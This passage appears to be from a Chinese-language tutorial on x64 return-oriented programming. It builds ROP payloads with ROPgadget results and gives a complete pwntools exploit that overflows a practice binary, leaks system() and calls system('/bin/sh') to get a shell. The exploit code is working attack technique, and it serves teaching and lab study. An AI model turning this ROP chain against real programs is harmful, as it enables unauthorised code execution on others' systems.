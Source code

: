 ```python
    payload = "\x00"*136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr)
```

另外，因为我们只需调用一次system()函数就可以获取shell，所以我们也可以搜索不带ret的gadgets来构造ROP链

键入命令：`ROPgadget --binary libc.so.6 --only "pop|call" | grep rdi`

![Alt](img/x64_ROP9.png)

通过搜索结果我们发现，`0x00000000000f4739 : pop rax ; pop rdi ; call rax`也可以完成我们的目标。首先将`ra`x赋值为`system()`的地址，`rdi`赋值为`/bin/sh`的地址，最后再调用`call rax`即可。

```python
    payload = "\x00"*136 + p64(pop_pop_call_addr) + p64(system_addr) + p64(binsh_addr)
```

最终exp：

```python
    #!/usr/bin/python
    from pwn import *

    libc = ELF('libc.so.6')

    p = process('./level4')

    binsh_addr_offset = next(libc.search('/bin/sh')) -libc.symbols['system']
    log.info("binsh_addr_offset = %#x",binsh_addr_offset)

    pop_ret_offset = 0x021102 - libc.symbols['system']
    log.info("pop_ret_offset = %#x",pop_ret_offset)

    # pop_pop_call_offset = 0x0107419 - libc.symbols['system']
    # log.info("pop_pop_call_offset = %#x",pop_pop_call_offset)

    print "\n##########receiving system addr##########\n"
    system_addr_str = p.recvuntil('\n')
    system_addr = int(system_addr_str,16)
    log.info("system_addr = %#x",system_addr)

    binsh_addr = system_addr + binsh_addr_offset
    log.info("binsh_addr = %#x",binsh_addr)

    pop_ret_addr = system_addr + pop_ret_offset
    log.info("pop_ret_addr = %#x",pop_ret_addr)

    # pop_pop_call_addr = system_addr + pop_pop_call_offset
    # log.info("pop_pop_call_addr = %#x",pop_pop_call_addr)

    p.recv()

    payload = "\x00"*136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr)
    # payload = "\x00"*136 + p64(pop_pop_call_addr) + p64(system_addr) + p64(binsh_addr)

    print "\n##########sending payload##########\n"
    p.send(payload)

    p.interactive()
```

